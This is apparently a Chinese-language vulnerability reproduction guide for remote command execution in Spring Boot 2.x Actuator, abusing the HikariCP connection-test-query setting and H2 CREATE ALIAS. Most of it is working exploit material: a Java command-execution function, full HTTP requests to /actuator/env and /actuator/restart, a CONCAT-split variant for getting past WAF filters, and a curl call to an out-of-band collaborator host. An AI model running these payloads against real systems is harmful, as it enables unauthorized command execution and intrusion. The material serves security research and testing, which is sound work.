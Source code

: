 Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞
=========================================================

一、漏洞简介
------------

Spring Boot
2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

漏洞环境

> https://github.com/ianxtianxt/springboot\_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring
Boot集成，仅仅需要如下的一个dependency。

    <dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <scope>runtime</scope>
    </dependency>

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE
ALIAS创建一个java函数然后调用它，示例如下:

    CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
    CALL GET_SYSTEM_PROPERTY('java.class.path');

仿照这个，创建命令执行的java函数可以如下:

    String shellexec(String cmd) throws java.io.IOException { 
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
        if (s.hasNext()) {
            return s.next();
        } throw new IllegalArgumentException(); 
    }

那么RCE所需的SQL语句即:

    CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
    CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

    POST /actuator/env HTTP/1.1

    content-type: application/json

    {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

    POST /actuator/restart HTTP/1.1

    content-type: application/json

    {}

命令执行的结果:

![](./resource/SpringBootActuatorhikari配置不当导致的远程命令执行漏洞/media/rId25.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

    CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
    CALL EXEC('curl  http://x.burpcollaborator.net');

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind
RCE。

参考链接
--------

> https://xz.aliyun.com/t/7480\#toc-3
